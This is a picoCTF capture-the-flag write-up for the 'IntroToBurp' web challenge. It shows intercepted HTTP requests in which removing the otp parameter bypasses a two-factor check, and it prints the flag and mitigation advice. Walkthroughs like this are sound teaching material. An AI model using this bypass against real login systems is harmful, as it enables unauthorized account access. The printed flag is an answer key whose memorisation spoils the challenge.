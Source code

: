 # [IntroToBurp](https://play.picoctf.org/practice/challenge/419)

## Challenge Information

- **Category**: Web Exploitation
- **Difficulty**: Easy
- **Description**: Try here to find the [flag](http://titan.picoctf.net:63062/)

## Solution Overview

This challenge introduces the use of Burp Suite to intercept and manipulate HTTP requests. The goal is to bypass a two-factor authentication (2FA) system by intercepting and modifying the authentication request.

## Hints

- **Try using burpsuite to intercept request to capture the flag.**
- **Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.**

## Detailed Walkthrough

### Step 1: Understanding the Challenge

The website presents a registration form followed by a 2FA authentication page. The challenge hints suggest that we need to intercept and modify requests using Burp Suite to bypass security controls.

### Step 2: Setting Up Burp Suite

First, we need to configure Burp Suite:
1. Open Burp Suite
2. Configure the proxy settings (typically 127.0.0.1:8080)
3. Configure your browser to use this proxy
4. Ensure intercept is turned on in Burp Suite

### Step 3: Completing the Registration Form

Navigate to the challenge URL and fill out the registration form with any values:
- Full Name: (any name)
- Username: (any username)
- Phone Number: (any phone number)
- City: (any city)
- Password: (any password)

Submit the form to proceed to the 2FA authentication page.

### Step 4: Intercepting the 2FA Authentication Request

On the 2FA page, enter any 4-digit OTP (e.g., "0000") and submit the form. Burp Suite will intercept this request before it reaches the server.

The intercepted request looks like this:

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:63062
Content-Length: 8
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://titan.picoctf.net:63062
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:63062/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=[session-cookie-value]
Connection: keep-alive

otp=0000
```

### Step 5: Manipulating the Request

Based on the hint about "mangling the request," we need to modify the intercepted request. Looking at the request body, we see `otp=0000`. The vulnerability is that the server might not properly validate this parameter.

Send the request to Burp Suite's Repeater (right-click and select "Send to Repeater"), then:
1. Remove the `otp=0000` parameter from the request body
2. Keep the request line empty (don't remove the line itself)
3. Send the modified request

The modified request looks like this:

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:63062
Content-Length: 8
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://titan.picoctf.net:63062
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:63062/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=[session-cookie-value]
Connection: keep-alive


```

### Step 6: Retrieving the Flag

After sending the modified request, the server response contains:

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Wed, 09 Apr 2025 13:14:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 104
Vary: Cookie
Connection: close

Welcome, asd you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_6bffad21}
```

The flag is revealed in the response: `picoCTF{#0TP_Bypvss_SuCc3$S_6bffad21}`

## Tools and Resources Used

- **Burp Suite**: Web vulnerability scanner and proxy tool
- **HTTP Knowledge**: Understanding of HTTP requests and responses

## Flag

```
picoCTF{#0TP_Bypvss_SuCc3$S_6bffad21}
```

## Learning Points

- **Request Interception**: Using Burp Suite to intercept HTTP requests before they reach the server.
- **Request Manipulation**: Modifying request parameters to test application security.
- **Authentication Bypass**: Understanding how improper validation of authentication parameters can lead to security vulnerabilities.
- **HTTP Protocol**: Gaining deeper understanding of HTTP request/response structure.

## Mitigation Strategies

In real-world applications, these vulnerabilities can be prevented by:

- **Server-side Validation**: Ensuring all required parameters are present and valid.
- **Input Sanitization**: Properly validating and sanitizing all user input.
- **Proper Authentication Flow**: Implementing secure authentication processes that can't be bypassed.
- **Session Management**: Implementing proper session validation to prevent unauthorized access.
- **Security Headers**: Implementing security headers to protect against common web vulnerabilities.

## References

- [Burp Suite Documentation](https://portswigger.net/burp/documentation)
